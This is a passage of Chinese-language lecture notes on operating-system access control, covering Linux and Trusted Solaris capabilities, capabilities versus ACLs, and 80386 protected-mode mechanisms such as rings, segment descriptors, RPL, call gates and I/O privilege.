    -   将能力存储在配置文件中，例如 /etc/cap.conf。系统启动时，内核将读取此文件中的配置并保存在能力数组中（这是 LIDS 和 Linux 使用的一种方法）。
    -   将能力存储在程序的 I-node 中。创建用于运行程序的进程时，该进程将使用程序的能力进行初始化。
-   在编写这些特权程序时，我们应该非常小心。特权程序必须在程序内包含能力，以便用户只能按照程序的意图使用该能力。如果程序存在缺陷，用户可能能够通过该能力逃脱限制。没有限制，用户可以将能力用于程序不打算的操作。因此，安全漏洞可能会发生。

#### 案例研究：Linux中的能力

从 2.2 内核开始，Linux 将根权限分为较小的权限，称为能力。能力是每个线程的属性，可以独立启用和禁用。

-   能力。能力的数量在不同版本中一直在变化。我们在这里列举一些例子。
    -   CAP_CHOWN: 对文件的 UID 和 GID 进行任意更改。
    -   CAP_DAC_OVERRIDE: 绕过文件的读取、写入和执行权限检查。（DAC 是“自主访问控制”的缩写。）
    -   CAP_DAC_READ_SEARCH: 绕过文件读取权限检查和目录读取和执行权限检查。
    -   CAP_NET_ADMIN: 执行各种与网络相关的操作（例如，设置特权套接字选项，启用组播，接口配置，修改路由表）。
    -   CAP_NET_RAW: 使用 RAW 和 PACKET 套接字。
    -   CAP_SYS_PTRACE: 使用 ptrace(2) 跟踪任意进程。
-   线程能力集。每个线程都有三个能力集，其中包含零个或多个上述能力。
    -   允许集合：这是线程拥有的能力集合。
    -   有效集合：这是当前在进程中有效的能力集合，即访问控制将使用此能力集合。
    -   可继承集合：这是在 execve(2) 过程中保留的一组能力。它为进程在 execve(2) 期间将能力分配给新程序的允许集合提供了机制。
-   文件能力。自从内核 2.6.24 版本以来，内核支持使用 setcap(8) 将能力集与可执行文件关联起来。要这样做，需要具有 CAP_SETFCAP 能力。文件能力集与线程的能力集结合起来，确定了执行 execve(2) 后线程的能力。
-   当线程执行具有文件能力的程序时，线程可以获得额外的特权。因此，具有文件能力的程序是特权程序。
-   我们可以使用文件能力替代 Set-UID 程序，即不给予特权程序根特权，而是将一组所需的能力分配给该程序。这样，我们可以强制执行最小特权原则。
-   能力边界。在 Linux 内核 2.2.11 及更高版本中，系统管理员可以限制系统上允许的能力。他们可以从运行中的系统中删除能力。一旦能力被删除，直到系统重新启动之前都无法再添加回来。即使 root 被入侵，这可以限制某些系统的损害。
-   libcap 库。用户级程序与 Linux 中的能力功能进行交互的几种方式，例如设置/获取线程能力，设置/获取文件能力等。最方便的方式是使用 libcap 库，它现在是与能力相关的编程的标准库。
-   能力操作：使用 libcap 库，我们可以实现以下与能力相关的功能：
-   禁用能力：只是临时禁用某些能力，即从有效集中移除能力；能力仍然在允许集中，并且可以稍后启用。
-   启用能力：如果某个能力在允许集中，它可以被启用，从而变为有效。
-   删除能力：如果某个能力不再需要，可以从允许集中永久删除。

#### 案例研究：可信任Solaris中的能力

-   特权：使用能力来提升应用程序的特权。
-   特权（即能力）：授予应用程序执行本来被禁止的操作的离散权利。
-   覆盖其他安全策略，如访问控制列表（ACL）等。
-   能力和特权概念的区别：能力通常授予主体（例如用户和进程），而 Trusted Solaris 中的特权授予应用程序（例如程序）。
-   Trusted Solaris 8 提供了 70 多个特权。
-   文件系统安全：覆盖 ACL 等。
-   网络安全：覆盖端口限制等。
-   进程安全：覆盖审计、所有权、用户 ID 等限制。
-   这些特权避免了将应用程序授予 root 特权或 Set-UID 位。
-   “特权”是提升应用程序特权的更一般的方式。
-   Set-UID 总是将特权提升为“root”。
-   “特权”将“root”分为 70 个子特权，并将应用程序的特权提升为这些特权的子集。

##### 授权

-   授权是授予用户或角色的离散权限。
-   授权是能力。
-   例子：
    -   solaris.admin.usermgr.read：对用户配置文件的读取权限，但没有写入权限。
    -   solaris.admin.usermgr.pswd：更改用户密码。
    -   solaris.admin.printer.delete：删除打印机。
    -   solaris.admin.usermgr.grant：将具有相同前缀的任何授权委派给其他用户。
-   授权存储在 /etc/security/auth_attr 中。目前无法添加新的授权。

### 9. 能力和ACL的比较

-   对象命名：
    -   ACL：可以尝试将系统中的任何对象命名为操作的目标。
        -   优点：可访问对象的集合没有限制。
        -   缺点：蠕虫、病毒、后门、堆栈缓冲区溢出。
    -   能力：用户只能命名持有能力的对象。
        -   优点：最小特权原则。
        -   缺点：可访问对象的集合是有界的。
-   粒度：
    -   ACL 基于用户。
    -   能力可以基于进程、过程、程序和用户。
    -   更细粒度 ⟹ 最小特权原则。





#### 图4：特权限制和提升

### 10. 将能力与ACL结合

-   特权提升（见图4(a)）：
    程序获得某些能力后，用户运行该程序时特权被提升。这类似于 Set-UID，它只有一个能力：根能力。通用能力框架可以定义多个能力。程序只被授予必要的特权。因此，没有程序会像 Set-UID 程序那样拥有“超级权限”。这就是 Trusted Solaris 8 的做法。
-   权限限制（见图4(b))：
    用户可以进一步限制程序的权限。例如，如果一个程序不需要写入任何文件，用户可以从该程序中删除写文件的功能。因此，如果程序被入侵，并尝试写入用户的文件，即使 ACL 允许，访问也将被拒绝。

## 80386保护模式

### 1. 引言和初步讨论

> 对于老师：让我们从一个类比开始：教室里的投影仪应该受到保护，只有授权用户才能在我的课堂上打开投影仪。我将执行访问控制（因为我有遥控器）。在我的课堂时间内，任何需要打开投影仪的人都需要向我发送请求，我将检查您是否在授权用户列表中。如果是，我将使用遥控器按下开机按钮，并向投影仪发送信号；如果不是，则请求将被拒绝。

-   我能真的防止未经授权的用户打开投影仪吗？是什么阻止他们绕过我，直接将信号发送到投影仪（例如，记录我发送到投影仪的信号）？

> 对于老师：然后我们可以继续问学生是什么阻止普通用户修改 /etc/passwd 文件。

-   学生可能会说操作系统中的“访问控制”。
-   为什么我们要经过“控制器”来进行访问？
-   为什么我们不能直接跳转到设备驱动程序中的函数，并通过设备驱动程序访问磁盘？
-   为什么我们不能编写自己的代码（即设备驱动程序）直接访问原始磁盘？

问题 1（执行仿真）：假设要写入 /etc/passwd 文件，执行的 CPU 指令（机器码）是 c1, c2,..., cn 。还假设与访问控制相关的指令是 a1,...., as。现在让我们构建一个新程序 p' = c1,..., cn - a1, ..., as，并直接在 CPU 上运行它，我们能成功写入 /etc/passwd 文件吗？

答案：在 8086 中，你可以这样做。在 80386 中，你不能！

问题 2（代码访问）：假设我们知道系统调用 write() 的代码地址，它可以将数据写入磁盘。有两种调用它的方式：

-   通过系统调用的方式，受访问控制限制。
-   直接跳转到该代码。

我们知道第一种方法是可行的，但第二种选择能成功吗？如果不能，是什么阻止程序跳转到该代码？

答案：硬件访问控制不允许这样做。有一个安全策略来防止上述直接跳转的发生，并且该策略由硬件强制执行。我们对这种访问控制策略的定义以及硬件如何执行该策略感兴趣。

问题 3（数据访问）：我们知道当我们使用 `open()` 打开一个文件时，会返回一个文件描述符。这个文件描述符是存储在内核中的“能力”索引。假设我们知道这个能力的地址。是什么阻止我们直接修改这个能力，从而给我们额外的权限？

答案：访问被禁止。有一个安全策略来防止内核内存从用户空间直接访问，该策略由硬件在每次内存访问时执行。这样的访问控制是如何工作的？

> 讨论：从上述问题及其答案可以看出，某种类型的访问控制正在保护系统。如果你有机会设计这样的保护方案，你会如何设计像这样的访问控制？

-   安全策略的四个组成部分：主体、对象、操作和规则。
-   操作：指令。
-   对象：需要受到保护的事物。
    -   内存：以什么粒度，字节、字或块？你的选择有什么缺点和优点？
    -   寄存器
    -   I/O 设备
-   什么可以作为主体？
    -   我们可以使用用户 ID 或进程 ID 作为主体吗？不可以，因为这个访问控制不是操作系统的一部分，而是在操作系统之下。进程和用户在操作系统中有意义，但底层硬件不知道它们是什么。
    -   换句话说，如何给每个指令赋予一个身份？
-   如何设计规则（或策略）？
    -   如何表示这些策略？
    -   策略存储在哪里？
    -   何时执行这些策略？
    -   访问矩阵：高成本、不灵活等
-   强制访问控制与自主访问控制
    -   如果使用强制访问控制（MAC），则会强制执行系统级强制访问控制策略。
    -   如果使用自主访问控制（DAC），对象的所有者可以设置安全策略。

80386 保护模式选择 MAC：DAC 将系统的安全性置于用户手中，因为在 DAC 中，用户为自己拥有的对象定义自己的自主访问控制策略。如果用户犯了一个错误，系统可能会出现缺陷。MAC 不将安全性置于用户手中；相反，它定义了在整个系统中强制执行的全局策略。这些策略通常由权威（例如超级用户）定义。使用 MAC，即使用户犯了一个错误（无论是故意还是意外），系统级安全策略也将始终得到执行，这是由于 MAC 的特性。这种 MAC 的特性非常吸引人，以至于许多现代操作系统开始具有 MAC。例如，SELinux 和 Windows Vista 都具有内置的强制访问控制机制。

80386 选择 MAC，因此政策只能由当局设置，而不是由对象的所有者设置。当局的一个例子是运行在 80386 上的操作系统，即一旦操作系统设置了政策，80386 将执行这些政策。

-   在 MAC 中，安全策略通常基于主体/对象的组，而不是个别的主体/对象。分组减少了不同主体/对象的数量，从而使管理变得更容易。MAC 中的分组是通过标记来完成的，即为主体和对象分配标签；访问控制策略是基于这些标签定义的。可以选择多个标签以实现更精细的粒度，或选择少量标签以简化管理和访问控制逻辑。

如果你要为 CPU 设计一个 MAC，你打算使用什么来标记，打算使用多少个标签，以及在哪里存储这些标签？

### 2. 环架构和段

-   历史
    -   70 年代末：8086，实模式且没有保护。
    -   1982 年：80286，实模式和 16 位保护模式。
    -   1985 年：80386，实模式和 32 位保护模式。
-   环形结构：MAC 使用的标签。
    -   80386 有四个环。每个环与不同的权限相关联。环 0 是最高权限的环，操作系统内核通常驻留在此层中。
    -   每个对象和主体都与一个称为环的标签相关联。此标签用作访问控制策略中的主体。
    -   一个主体是否可以访问一个对象是由硬件中实施的强制访问控制策略决定的。

#### 保护环



#### 图：环形结构

-   跨环边界的内存保护：一旦我们将内存划分为几个环，我们可以基于环定义安全策略。例如，我们可以防止环 3 中的代码访问环 0 中的数据等。问题是，在进行访问控制时，CPU 如何了解主体和对象的环标签。
-   当 CPU 执行访问控制策略时，必须以高效的方式了解主体和客体的环标签。
    -   CPL：当前特权级，主体的标签。
        -   CPL 存储在一个寄存器中（CS 和 SS 段寄存器的第 0 位和第 1 位）。
        -   CPL 表示当前正在执行的程序或过程的特权级。
        -   通常情况下，CPL 等于正在获取指令的代码段的特权级（有一个例外，在我们讨论符合代码段时会谈到）。
        -   当程序控制转移到具有不同特权级的代码段时，处理器会更改 CPL。
    -   DPL：描述符特权级，对象的标签。
        -   DPL 是对象的特权级。当当前执行的代码段尝试访问对象时，将 DPL 与 CPL 进行比较。
        -   DPL 应该存储在哪里？
            -   讨论：每个字节中存储？存储在每个块的开头？还是其他地方吗？
-   在同一个环中的内存保护：环可以实现环边界内的内存保护，但无法在同一个环中实现内存保护。例如，当我们为 80386 开发操作系统时，我们希望用户进程在第 3 环中运行，但我们不希望一个进程访问另一个进程的内存（都在第 3 环内）。环无法实现这种类型的保护（内存隔离）。我们需要另一种访问控制机制来实现这种保护。
    -   让我们将内存分成段。每个进程可以占用一个或多个段。每当一个进程尝试访问内存时，应该执行访问控制以实现内存隔离。
    -   讨论：我们使用哪种访问控制模型？ACL 还是能力？
    -   ACL 方法：我们将每个段与一个访问控制列表相关联。每个内存访问都将通过此列表进行。这太耗时了，因为列表可能很长。处理器无法为每个内存访问遍历一个长列表。
    -   能力方法：每个进程被分配一个能力列表，每个能力对应一个它的段。能力基础访问控制有两个重要问题。首先，能力应该存储在哪里？它们不能被用户伪造。特权环是存储能力的好地方。其次，有两种常见的实现能力基础访问控制的方式：
        -   能力列表：代码在访问内存时不需要显式显示其能力；相反，处理器会搜索进程的能力列表，找到适当的能力（如果有的话）。这种方法与 ACL 方法存在相同的问题：列表可能太长。
        -   能力索引：当代码尝试访问内存时，它应该提供一个“票”，即存储在特权环中的实际能力的索引。这样，处理器只需要检查这个特定的能力。性能比能力列表方法要好得多。这类似于文件描述符的实现方式。
    -   80386 选择能力作为其访问控制模型，以实现内存隔离；它使用索引方法。

#### 逻辑和线性地址



-   逻辑地址：由段选择器和偏移量组成。处理器使用由段选择器指示的段描述符将逻辑地址转换为线性地址。
-   线性地址：当分页禁用时，线性地址实际上是物理地址；当分页启用时，通过分页机制将线性地址转换为物理地址。
-   段选择器由段寄存器提供：例如，在以下指令中，段选择器由寄存器 DS 提供，偏移量为 80：MOV %DS:[80], %EAX。
-   这里使用了两种访问控制机制：
    -   基于能力的访问控制：段选择器和段描述符实际上是能力的概念。段描述符是能力，而段选择器是描述符的索引。段选择器对用户程序可访问，但段描述符不可访问。
    -   强制访问控制：即使进程具有能力，其访问权限还受到另一级基于 MAC 的访问控制的限制。这一级别的访问控制确保了基于环的访问策略得到执行。
    -   注意：有人可能会想第二级访问控制是否多余；如果访问不被允许，为什么还要为进程创建能力（描述符）呢？有两个原因：（1）在基于能力的访问控制中，如果主体可以打开/关闭其能力以降低风险是可取的。80386 使用一种称为 RPL（请求特权级别）的机制，在执行某些指令时临时打开/关闭能力；RPL 依赖于强制访问控制机制的工作（我们稍后会讨论 RPL）。（2）80386 还允许每个任务使用全局描述符表（GDT），其中包含所有进程共享的能力。所有任务都可以访问这些能力，但能力的有效性取决于主体的 CPL 和对象的 DPL（即取决于强制访问控制）。

#### 段选择器



-   **TI:** 表指示器。指示使用 GDT 还是 LDT。
-   **Index:** 处理器将索引乘以 8（段描述符中的字节数），并将结果加到基地址上，基地址根据 TI 值存储在 GDTR 或 LDTR 寄存器中。
-   **GDT:** 全局描述符表。每个系统必须定义一个 GDT。
-   **LDT:** 局部描述符表。可以定义一个或多个 LDT。例如，可以为每个正在运行的任务定义一个 LDT，或者一些或所有任务可以共享相同的 LDT。
-   **RPL:** 请求特权级。指定选择器的特权级别。我们稍后会解释这个。

#### 段描述符



#### 段描述符

-   基址（32 位）：段的基地址。
-   段限制（20 位）：段的大小。处理器将确保地址的偏移不超过段限制。
-   类型（4 位）：指定段的类型。处理器将执行类型规则。例如，如果数据段不可写，则不允许任何指令写入数据段；除非可读标志被设置，否则不允许任何指令读取可执行段等。
    -   数据类型：只读，读/写等。
    -   代码类型：仅执行，执行/读取。
-   DPL（2 位）：描述符特权级别。它指定段的环级。DPL 用于访问控制。

#### 段寄存器

-   由于地址转换步骤，访问内存中的数据或代码涉及两次内存访问，一次用于从描述符表中检索段描述符，另一次用于访问实际内存。为了避免每次内存访问都要查询描述符表，80386 在段寄存器中缓存了描述符的信息。
-   段寄存器有一个“可见”部分和一个“隐藏”部分。
    -   “可见”部分：段选择子。
    -   “隐藏”部分：描述符缓存；它缓存了由段选择子指示的描述符，包括基地址、限制和访问信息。这些缓存的信息使处理器能够在不进行额外总线周期的情况下进行地址转换。
-   80386 中的段寄存器：CS（代码段）、DS（数据）、SS（堆栈）、ES、FS 和 GS。默认情况下，对于代码地址，处理器使用包含在 CS 中的段选择子，因此从代码段中获取代码。对于数据地址，默认情况下，处理器使用包含在 DS 中的段选择子，对于堆栈地址，默认情况下，处理器使用包含在 SS 中的段选择子。如果想要使用其他段寄存器，可以将它们作为前缀使用：例如 MOV EAX, FS:[0]。
-   要让程序访问一个段，该段的段选择子必须已经加载到段寄存器之一中。加载这些寄存器的操作是正常的程序指令；它们分为两类：
    -   直接加载指令：例如 MOV, POP, LDS, LSS, LGS, LFS。
    -   隐式加载指令：例如远程 CALL 和 JMP。这些指令隐式引用了 CS 寄存器，并将其加载为新值。

当修改段寄存器时，处理器会自动从描述符表中获取基地址、限制、类型和其他信息，并将它们加载到段寄存器的“隐藏”部分。在80386保护模式下加载段寄存器会导致特殊的检查和操作，以确保满足访问控制策略。我们稍后会讨论这些策略。

### 3 数据和代码访问的强制访问控制
- 数据访问的特权检查（见图）
- 我们暂时忽略RPL。
- 策略：CPL ≤ 代码段的DPL。
- 主体只能访问具有相同或较低特权级别的数据对象。

- RPL：请求特权级别。
- 潜在风险：在ring 0上，代码可以访问任何ring级别的数据。当代代码（比如A）由较低特权级别的某些其他代码（比如B）调用，并且B将指针传递给A时，这会带来风险。通常，指针指向属于B的内存空间（当然A也可以访问）。然而，如果B是恶意的，B可以传递一个不属于B的内存的指针（B没有访问该内存的特权）。因为A是特权代码，访问控制无法阻止A访问内存。这样，B可以利用A来破坏特权空间中的目标内存。
- 最小特权原则：在上述情况下，当 A访问由 B传递的指向的内存时，实际上没有必要以ring-0特权运行 A。根据最小特权原则，当A访问内存时，应将其特权降低到 B的环级别。
- RPL是如何工作的：
  *假设 A在ring 0中， B在ring 3中，内存地址的选择器为 S。*选择器的最后两位用于 RPL。这意味着在访问该内存时，代码的特权被降低到RPL级别。因此，如果 S的RPL=3，当 A尝试在ring 0中访问内存（即DPL=0）时，访问将被拒绝。如果 S的RPL没有降低到3（而是设置为0），访问将成功，因为 A的CPL为0。
- 换句话说， max(RPL, CPL)实际上用于访问控制。
* RPL通常大于或等于CPL。
* 如果RPL = 0，RPL将不起作用。
- 访问控制策略: max(CPL, RPL) ≤ 数据段的DPL。

### ●在不使用门的情况下进行控制转移的特权检查
- 策略:
* 对于非符合段：当CPL = DPL时允许转移。
* 对于符合段：当CPL ≥ DPL时允许转移。
* RPL在这里没有太大的影响。
- 为什么我们不能使用更高的DPL（即更低的特权级）访问代码？
* 可能的原因1：跳转（降低CPL）到具有更高DPL的代码很容易，但是返回时很难，因为在返回时，我们从较低特权级的环跳转到较高特权级的环。这违反了强制访问控制策略。
* 可能的原因2：另一个原因是数据访问。如果一个代码 A跳转到另一个代码 B在较低的特权级别， B无法访问 A的数据，因为数据很可能在 A的环级别中。
* 可能的原因3：真的有必要允许从更高的特权级别跳转到较低的特权级别吗？
- 为什么我们不能跳转到具有较低DPL（即更高特权级别）的代码？
* 出于安全原因，我们不能这样做。
* 这种类型的跳转是必要的吗？是的，我们绝对需要这个。因为设备驱动程序代码通常在特权环中。用户级程序应该能够以某种方式跳转到设备驱动程序代码。
* 我们如何实现跳转到较低DPL？门是为此目的而设计的。我们稍后会讨论门。

### ●符合位
- 允许共享过程，因此可以从不同的特权级别调用它们。
- 通常用于数学库和异常处理程序。
- 如果你有一个希望每个人都能调用的过程，你会把它放在哪里？在哪个环中？
* 环3：环0、1、2不能调用它。
* 环0：环1、2、3不能调用它。
* 环0和调用门：你需要为每个库调用构建一个调用门。
- 符合段机制允许共享可以从不同特权级别调用但应在调用过程的特权级别下执行的过程。当控制转移到符合段时，CPL不会改变。

### 4 调用门
- 支持系统调用：
在操作系统中，所有特权操作都在特权环中进行，例如修改内核数据结构、与设备交互等。操作系统不允许用户程序以任意方式调用它们，例如跳转到特权操作的中间。相反，操作系统为用户程序提供了许多接口，只能通过这些接口调用那些特权操作。这些接口通常被称为系统调用。调用系统调用与调用普通函数非常不同。在后一种情况下，调用在同一个环中进行；然而，在前一种情况下，调用是从一个较低特权环到一个特权环。80386的环保护不允许直接跳转。必须提供一些特殊机制，允许从较低特权环转移到特权环。
- 如何调用系统调用？
  - 调用门：调用门允许程序直接调用系统调用。然而，由于系统调用通常在特权环中，直接调用它们是不允许的，因为存在环保护机制。80386保护模式使用调用门的概念来实现这种转移。调用门使得低特权环中的程序能够跳转到高特权环中的指定位置。
  - 软件中断或陷阱：在许多操作系统中，如Linux和Minix，程序使用int 0x80陷入内核。也就是说，当程序想要调用系统调用时，它会将系统调用号保存在EAX寄存器中，然后执行int 0x80引发一个软件中断。中断将控制权转移到内核，因此内核可以根据EAX中存储的号码执行相应的系统调用。这种方法在操作系统设计中非常流行。
  - SYSENTER/SYSEXIT：英特尔奔腾II处理器引入了另一个新的功能，用于更快地调用系统调用。该功能使用指令SYSENTER在ring 0进入系统调用入口点；它使用SYSEXIT返回。从2.5版本开始，Linux内核开始利用这个新的系统调用功能。

- 调用门的概念: 80386允许程序跳转到更高特权级，但程序不能跳转到任意位置，它必须通过调用门，基本上定义了特权代码的入口点。 相应的安全检查将在这些入口点进行，以决定调用代码是否具有足够的权限。 这些安全检查由操作系统执行。
- 与段描述符类似，调用门条目 (调用门描述符) 也存储在GDT (或LDT) 表中。 门定义了一个过程的入口点。
- 调用门描述符包含以下信息:
| 位31-16 | 位15-8 | 位7 | 位6-5 | 位4-0 |
| :---: | :---: | :---: | :---: | :---: |
| 段内偏移 31:16 | P | DPL | 类型 | 参数计数 |
| | | 0 | 1 1 0 0 | 0 0 0 |
| 位31-16 | 位15-0 |
| :---: | :---: |
| 段选择器 | 段内偏移 15:00 |
图: 门描述符
* 要访问的代码段 (段选择子)
* 指定代码段中过程的入口点 (段内偏移)
* 调用者尝试访问过程所需的特权级 (DPL)
* 参数计数: 如果发生堆栈切换，它指定要在堆栈之间复制的可选参数的数量。
* 等等。
- 如何使用调用门?
* 调用 xxxxxx 或 JMP xxxxxx
* xxxxxx 指定GDT (或LDT) 表中的调用门条目
* 从表中获取过程的入口点。
* 门描述符的DPL允许CPU决定调用者是否可以进入门。

### ●调用门的访问控制策略
- CPL ≤ 调用门的DPL。
- 对于CALL指令: 代码段的DPL ≤ CPL (只允许调用更高权限的代码段)。
- 对于JMP指令: 代码段的DPL = CPL。
- 问: 为什么不能使用门调用一个权限更低的代码段? 返回将成为一个问题, 因为返回将从权限较低的代码返回到权限更高的代码, 这违反了强制访问控制。

### ●从被调用过程返回
- RET指令可用于执行近返回、同一特权级的远返回, 以及到不同特权级的远返回。
- 只有在返回到较低特权级时，才允许需要特权级更改的远返回。

### 5 保护寄存器和I/O
### •保护描述符表（通过保护其寄存器）
- GDT、LDT、IDT非常重要。它们包含以下内容。
  * 调用门
  * 代码段描述符
  * 数据段描述符
- 这些表应该在受保护的内存中
- GDTR、LDTR和IDTR寄存器（它们存储这些表的位置）只能由特权代码设置，即以下指令只能在特权级0中执行：
  * LGDT - 加载GDT寄存器
  * LLDT - 加载LDT寄存器
  * LIDT - 加载IDT寄存器

问题：如果这些寄存器没有受保护，会有什么问题？

### •I/O保护
- 引言问题：一切都可以归结为I/O操作。从第3特权级直接进行I/O操作是否可能？
- 如何防止任意代码进行I/O操作？
- 指令：IN、INS、OUT、OUTS
- IOPL（I/O特权级）存储在EFLAGS中。它显示当前程序或任务的I/O特权级。
- 任务或程序的当前特权级（CPL）必须≤IOPL，才能访问I/O端口。
- 只有在当前特权级为Ring 0时，才能使用POPF来改变IOPL，即只能由内核代码来改变。
